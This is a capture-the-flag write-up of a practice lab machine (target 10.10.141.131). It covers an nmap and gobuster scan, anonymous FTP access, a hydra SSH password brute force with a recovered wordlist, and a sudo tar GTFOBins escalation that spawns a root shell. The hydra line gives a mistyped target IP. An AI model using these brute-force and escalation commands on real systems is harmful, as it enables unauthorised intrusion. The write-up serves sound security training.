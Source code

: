 ## Target IP: `10.10.141.131`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.141.131 -oN results.txt
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 21 | FTP |
| 22 | SSH |
| 80 | HTTP |

---

### Web Enumeration

- Accessing `http://10.10.141.131` showed only a challenge image.
- Directory brute-forcing yielded nothing:

```bash
gobuster dir -u http://10.10.141.131 -w /usr/share/dirb/wordlists/common.txt
```

---

### FTP Access

- Connected anonymously:

```bash
ftp 10.10.141.131
```

- Username: `anonymous`
- Initial `ls` command resulted in passive mode prompt.
- Disabled passive mode:

```bash
passive
```

- Listed files and found `task.txt` and `locks.txt`.

---

### Found Files

- `task.txt`: Contained miscellaneous content and a username.
- `locks.txt`: List of potential passwords.

---

### SSH Brute Force

```bash
hydra -l lin -P locks.txt ssh://10.10.141.13
```

**Hydra Flags:**

| Flag | Description |
| --- | --- |
| -l | Login/username |
| -P | Password list file |
| ssh:// | Target protocol on port 22 |
- Valid credentials found:
    
    **Username:** `lin`
    
    **Password:** `[REDACTED]`
    
- Logged in via SSH.

---

### Post-Login Enumeration

- Found `user.txt` → Contains user flag.
- Checked sudo privileges:

```bash
sudo -l
```

- Output:

```
User lin may run the following commands on bountyhacker:
(root) /bin/tar
```

---

### Privilege Escalation

- Found `tar` escalation method on GTFOBins (A site for linux privilege escalation):

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- Verified root access:

```bash
whoami
```

- Searched for root flag:

```bash
find / -name "root.txt" 2>/dev/null
```

- Found at: `/root/root.txt`
- Used `cat` to read the final flag.
